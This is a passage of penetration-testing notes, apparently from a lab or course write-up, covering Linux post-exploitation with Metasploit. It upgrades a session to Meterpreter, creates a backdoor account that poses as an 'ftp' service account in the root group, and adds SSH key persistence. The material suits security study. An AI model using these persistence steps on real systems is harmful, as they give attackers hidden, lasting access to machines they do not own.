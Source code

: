 - Upgrade the privileged session 3 to a `Meterpreter` session

```bash
sessions -u 3
sessions 4
```

- `SESSION 4` is a Meterpreter privileged session

![](.gitbook/assets/image-20230422164900736.png)

### Persistence

- Create a backdoor user with administrative privileges that can be used to access the target system via SSH

```bash
shell
whoami
	root
cat /etc/passwd
# Create a user that looks like a service account
# and add it to "root group"
useradd -m ftp -s /bin/bash
passwd ftp
	password123
usermod -aG root ftp
usermod -u 15 ftp
groups ftp
	ftp : ftp root
```

❗ Changing user's password is a strong indicator of compromise, it should not be done.

- Perform **SSH Persistence** with a Metasploit persistence modules

```bash
exit # CTRL+C
background
```

```bash
search platform:linux persistence
use post/linux/manage/sshkey_persistence
info
# Description:
#   This module will add an SSH key to a specified user (or all), to 
#   allow remote login via SSH at any time.
set SESSION 4
set CREATESSHFOLDER true
run
```

![Metasploit - post/linux/manage/sshkey_persistence](.gitbook/assets/image-20230422165505058.png)

- Access the private key and copy the content of the `id_rsa` file and save it as a new file. Assign the appropriate permissions to the file
